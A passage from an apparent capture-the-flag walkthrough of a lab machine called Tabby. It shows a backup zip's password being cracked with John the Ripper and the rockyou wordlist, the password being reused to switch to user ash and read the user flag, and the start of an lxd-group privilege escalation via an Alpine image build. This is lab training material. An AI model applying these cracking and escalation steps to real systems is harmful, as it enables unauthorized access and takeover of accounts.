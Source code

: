 ```bash
kali@kali:/data/Tabby/files$ /data/src/john/run/zip2john 16162020_backup.zip > zip.hash
kali@kali:/data/Tabby/files$ /data/src/john/run/john zip.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP \[32/64\])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it (16162020_backup.zip)
1g 0:00:00:01 DONE (2020-09-17 14:43) 0.7462g/s 7730Kp/s 7730Kc/s 7730KC/s adnc153..adilizinha
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Having the password (*admin@it*), we may assume that *ash* has used the same password for the backup as his session’s password.

---
### Read the user flag
Let’s switch to *ash* and get the user flag:
```bash
tomcat@tabby:/var/www/html$ su ash
su ash
Password: admin@it

ash@tabby:/var/www/html$ cd
cd
ash@tabby:~$ ls -la
ls -la
total 28
drwxr-x--- 3 ash ash 4096 Jun 16 13:59 .
drwxr-xr-x 3 root root 4096 Jun 16 13:32 ..
lrwxrwxrwx 1 root root 9 May 21 20:32 .bash_history -> /dev/null
-rw-r----- 1 ash ash 220 Feb 25 2020 .bash_logout
-rw-r----- 1 ash ash 3771 Feb 25 2020 .bashrc
drwx------ 2 ash ash 4096 May 19 11:48 .cache
-rw-r----- 1 ash ash 807 Feb 25 2020 .profile
-rw-r----- 1 ash ash 0 May 19 11:48 .sudo\_as\_admin_successful
-rw-r----- 1 ash ash 33 Sep 17 12:49 user.txt
ash@tabby:~$ cat user.txt
cat user.txt
f7328d5e25be4a817d7d3482b1e551aa
```

---
### Root flag
#### lxd group
Checking the groups *ash* belongs to reveals that he’s member of the *lxd* group:
```bash
ash@tabby:/opt/tomcat$ id
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```
#### Alpine image
We can escalate our privileges quite easily using the alpine image. It requires that we build the image on our machine.
```bash
$ git clone https://github.com/saghul/lxd-alpine-builder.git
$ cd lxd-alpine-builder
$ su - root

# ./build-alpine
```